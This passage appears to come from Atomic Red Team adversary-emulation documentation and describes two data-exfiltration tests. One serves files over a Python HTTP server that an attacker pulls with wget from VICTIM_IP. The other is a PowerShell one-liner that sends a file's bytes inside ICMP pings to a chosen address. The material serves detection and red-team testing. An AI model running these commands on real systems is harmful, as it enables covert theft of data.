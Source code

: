 **Supported Platforms:** macOS, Linux


**auto_generated_guid:** 1d1abbd6-a3d3-4b2e-bef5-c59293f46eff





#### Run it with these steps! 
1. Victim System Configuration:

    mkdir /tmp/victim-staging-area
    echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

2. Using Python to establish a one-line HTTP server on victim system:

    cd /tmp/victim-staging-area
    python -m SimpleHTTPServer 1337

3. To retrieve the data from an adversary system:

    wget http://VICTIM_IP:1337/victim-file.txt







<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - ICMP
Exfiltration of specified file over ICMP protocol.

Upon successful execution, powershell will utilize ping (icmp) to exfiltrate notepad.exe to a remote address (default 127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** dd4b4421-2e25-4593-90ae-7021947ad12e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to be exfiltrated. | path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent. | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path #{input_file} -Encoding Byte -ReadCount 1024) { $ping.Send("#{ip_address}", 1500, $Data) }
```
